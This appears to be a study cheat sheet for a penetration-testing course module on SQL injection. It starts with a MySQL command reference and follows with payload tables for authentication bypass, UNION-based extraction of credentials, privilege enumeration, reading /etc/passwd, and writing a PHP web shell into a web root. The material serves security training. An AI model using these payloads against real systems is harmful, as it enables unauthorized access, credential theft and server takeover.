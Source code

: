 ```yaml
---
layout: post
title: "SQL Injection Fundementals"
date: 2025-04-22
categories: CheatSheets/CPTS
order: 13
---
```


## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |

## MySQL Operator Precedence

* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

---

## SQL Injection

Here’s the same content with properly formatted Markdown tables:

---

## Auth Bypass

| **Payload**              | **Description**                      |
|--------------------------|--------------------------------------|
| `admin' OR '1'='1`       | Basic auth bypass                    |
| `admin')-- -`            | Basic auth bypass (with SQL comment) |
| **Reference**            | [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |

---

## Union Injection

| **Payload**                                                | **Description**                          |
|------------------------------------------------------------|------------------------------------------|
| `' ORDER BY 1-- -`                                         | Detect number of columns via `ORDER BY`  |
| `cn' UNION SELECT 1,2,3-- -`                               | Test UNION injection, discover columns   |
| `cn' UNION SELECT 1,@@version,3,4-- -`                     | Show MySQL version via UNION             |
| `UNION SELECT username,2,3,4 FROM passwords-- -`           | Extract usernames (4‑column UNION)       |

---

## DB Enumeration

| **Payload**                                                                                                                | **Description**                                            |
|----------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------|
| `SELECT @@version`                                                                                                         | Fingerprint MySQL and return version string                |
| `SELECT SLEEP(5)`                                                                                                          | Fingerprint MySQL via time delay                           |
| `cn' UNION SELECT 1,database(),2,3-- -`                                                                                     | Retrieve current database name                             |
| `cn' UNION SELECT 1,schema_name,3,4 FROM information_schema.schemata-- -`                                                   | List all databases                                         |
| `cn' UNION SELECT 1,table_name,table_schema,4 FROM information_schema.tables WHERE table_schema='dev'-- -`                  | List tables in the `dev` database                          |
| `cn' UNION SELECT 1,column_name,table_name,table_schema FROM information_schema.columns WHERE table_name='credentials'-- -` | List columns in the `credentials` table                    |
| `cn' UNION SELECT 1,username,password,4 FROM dev.credentials-- -`                                                          | Dump all rows from `dev.credentials`                       |

---

## Privileges

| **Payload**                                                                                                                                       | **Description**                                 |
|---------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------|
| `cn' UNION SELECT 1,user(),3,4-- -`                                                                                                                | Show current MySQL user                        |
| `cn' UNION SELECT 1,super_priv,3,4 FROM mysql.user WHERE user='root'-- -`                                                                          | Check if `root` has SUPER privileges            |
| `cn' UNION SELECT 1,grantee,privilege_type,is_grantable FROM information_schema.user_privileges WHERE user='root'-- -`                           | List all privileges granted to `root`           |
| `cn' UNION SELECT 1,variable_name,variable_value,4 FROM information_schema.global_variables WHERE variable_name='secure_file_priv'-- -`           | Show MySQL’s `secure_file_priv` setting         |

---

## File Injection

| **Payload**                                                                                                                                         | **Description**                      |
|-----------------------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------|
| `cn' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4-- -`                                                                                                 | Read the `/etc/passwd` file          |
| `SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'`                                                                         | Write a string into a server‑side file |
| `cn' UNION SELECT '', '<?php system($_REQUEST[0]); ?>', '', '' INTO OUTFILE '/var/www/html/shell.php'-- -`                                            | Drop a PHP web shell into the web root |

---
